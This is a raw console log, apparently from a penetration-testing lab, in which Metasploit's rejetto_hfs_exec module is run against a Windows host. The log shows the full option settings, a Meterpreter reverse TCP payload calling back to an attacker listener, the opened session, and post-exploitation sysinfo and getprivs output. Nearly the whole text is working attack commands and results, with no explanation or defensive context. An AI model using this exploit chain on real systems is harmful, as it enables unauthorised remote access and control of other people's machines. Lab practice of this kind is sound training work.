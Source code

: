 ```
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.5.25.175      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.26.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.26.3:4444 
[*] Using URL: http://0.0.0.0:8080/CwKRPSBG5GuJuD
[*] Local IP: http://10.10.26.3:8080/CwKRPSBG5GuJuD
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /CwKRPSBG5GuJuD
[*] Sending stage (200262 bytes) to 10.5.25.175
[!] Tried to delete %TEMP%\uoRYyhpAyok.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.26.3:4444 -> 10.5.25.175:49737) at 2023-08-06 23:13:23 +0530
[*] Server stopped.

meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Meterpreter     : x64/windows
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
```